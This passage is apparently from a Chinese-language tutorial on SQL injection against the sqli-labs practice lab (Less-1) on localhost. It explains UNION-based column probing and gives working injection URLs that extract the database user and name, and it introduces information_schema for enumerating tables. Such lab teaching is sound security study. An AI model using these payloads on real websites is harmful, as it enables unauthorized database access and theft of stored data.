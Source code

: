 > 上图为'-1'，但不影响结果
>

返回的是一张有3列的空表，后半部分语句可以写为`select 1,2,3(不是select 1,2,3 from users)`，它会返回与实际内容相同的列，但只有一行：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641718053930-b45584b0-09a0-43b2-9212-1cbc2c3fd419.png)



因此这个union语句符合SQL语句规范不会报错，union合并之后的结果如下：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641717923004-8531a339-68bf-4507-84a7-930ad9a771d7.png)

> 上图为'-1'，但不影响结果
>

> `select 1,2,3`实际上没有向任何一个数据库查询数据，即查询命令不指向任何数据库的表。
>
> `select 1,2,3 from users`会返回与实际内容相符的行列值，但列名和内容都被替换为`1,2,3`：
>
> ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641718286946-4302a7b0-2cc2-45bb-b804-00ecff2a40b0.png)
>

对应网站的执行结果如下：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641718459368-5eec2380-216c-49fb-977f-d6b23f6229b5.png)

从上面知道存放在表中的name和passwd分别对应该表的第2和第3个字段（此时仍然不知道列名）。下面我们开始爆破**当前语句执行的数据库名**和用户名，这个语句和前一个的结构相同：

`http://localhost:8888/Less-1/?id=-1' union select 1,2,concat_ws('-',user(),database())--+`

+ `select concat('11','22','33')`
    - 输出"112233"
+ concat_ws
    - `select concat_ws('-','11','22','33')`即输出"11-22-33"，第一个参数是其它参数的分隔符。
+ user()
    - `select user()`返回用户名
+ database()
    - `select database()`返回数据库名

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641719159629-cc3d07af-5a52-43e3-b311-5ff870e59f01.png)



如果网页可以有多个回显时可以使用：`http://localhost:8888/Less-1/?id=-1' union select 1,user(),database()--+`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641719226880-d7708279-45aa-4bb2-8343-b2bca2617c99.png)

所以用户名`root`，数据库`security`。爆表名之前需要了解mysql中自动创建的数据库`information_schema`：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641719418391-11d7e801-7906-46ed-844c-933b6b8ab489.png)

其中有很重要的三张表`schemata`，`tables`和`columns`：

+ `schemata`：存储了mysql中所有数据库的信息，包括数据库名，编码类型等，`show databases`的结果取之此表。

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641719495545-c326af60-3b7b-4bb5-b73c-99ce102389b2.png)
